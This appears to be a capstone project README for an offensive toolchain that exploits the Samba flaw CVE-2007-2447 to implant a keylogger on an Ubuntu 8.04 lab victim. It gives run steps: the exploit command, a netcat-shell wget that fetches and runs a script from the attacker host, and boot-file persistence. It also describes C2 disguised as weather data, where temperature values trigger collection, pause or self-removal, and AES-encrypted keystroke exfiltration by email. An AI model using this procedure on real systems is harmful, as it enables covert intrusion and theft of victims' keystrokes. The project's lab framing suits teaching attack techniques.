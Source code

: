 # Capstone

## Description
A Cyber Effect that exploits [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) which is a vulnerability in the Samba server that allows remote code execution. The implant is injected into the [victim](#victim) machine using a weaponized [exploit](exploit/exploit.sh) and gathers key log data. Command and control communication is disguised as weather data that is requested by the implant over HTTP and the key log data is encrypted and sent by the implant over SMTPS.

## Exploit Scripts
- [exploit](exploit/exploit.sh)
- [run keylogger](exploit/run.sh)
- [add keylogger to boot file](exploit/rewriteBoot.sh)
## Python Scripts
- [implant](python/weather.py)
- [server](python/server.py)
- [txt file with email contents](python/keylog.txt)
- [decrypt email](python/decrypt_email.py)
## Binary
- [implant compiled to binary](exploit/weather)

## Requirements
### Email
An email address, preferably temporary, is needed so that the keylogger can send the key log data out of the [victim](#victim) machine.
### Virtual Machines

### Attacker

- Linux-based machine with Python on it (Kali-Linux is recommended)
- Machine with python on it to run the server script

### Victim

- [Ubuntu 8.04 Desktop with samba installed](https://drive.google.com/file/d/1bCviB84Nn4B2H-JRrIk0tRF7tXcdrCtE/view?usp=sharing)

## How To Run

1. Turn on all three devices (both [attackers](#attacker) and [victim](#victim)). You don’t need to log into [victim](#victim), but you do need to log into both [Kali-Linux and Server](#attacker).
2. In the [Server](#attacker), start the [server script](python/server.py) and record the public IP address it is running on. It is in this window where commands that control the implant are issued.

    ```bash
    python3 server.py
    ```

3. In the [Kali-Linux](#attacker), copy all the bash script files and binary file into the same folder

    ```bash
    > ls # should see only 4 files
    exploit.sh rewriteBoot.sh run.sh weather
    ```

4. Start attack by:

    ```bash
    chmod +x exploit.sh # give executable permission
    ./exploit.sh <Target IP> <Kali-Linux IP> # run exploit script
    ```

   Give it seconds, if nothing shows up after typing the command, give it another try.

5. Inside the netcat shell:

    ```bash
    wget http://<Kali-Linux IP>:8564/run.sh
    chmod +x run.sh
    ./run.sh <Kali-Linux IP> <Email Address> <Server IP>
    ```

   Terminate the process after a few second. You need to type CRTL+C twice. One for the NetCat one for the http server.

## Usage
The implant is now running in the [victim](#victim) and we can control it's behavior using the [Server](#attacker). By default the [Server](#attacker) sends weather data with a temperature of 50&deg;F which instructs the keylogger to collect data. This attribute can be changed by entering a number in the window the [server script](python/server.py) is running in and pressing Enter.

- `input` <= 0&deg;F encrypts the key log data and sends it in an email to the provided email address
- 0&deg;F < `input` <= 32&deg;F pauses the keylogger
- 32&deg;F < `input` <= 70&deg;F resumes the keylogger
- `input` > 70&deg;F stops the keylogger and removes the [implant](exploit/weather) and all files related to it on the [victim](#victim) machine

The message that is sent to the email address is encrypted using AES. To decrypt it and view the key log data, copy the contents into the [keylog.txt](python/keylog.txt) file and then run the [decrypt_email.py](python/decrypt_email.py) script, ensuring that they are in the same directory.

```bash
python3 decrypt_email.py
```

The decrypted key log data will now be in [keylog.txt](python/keylog.txt).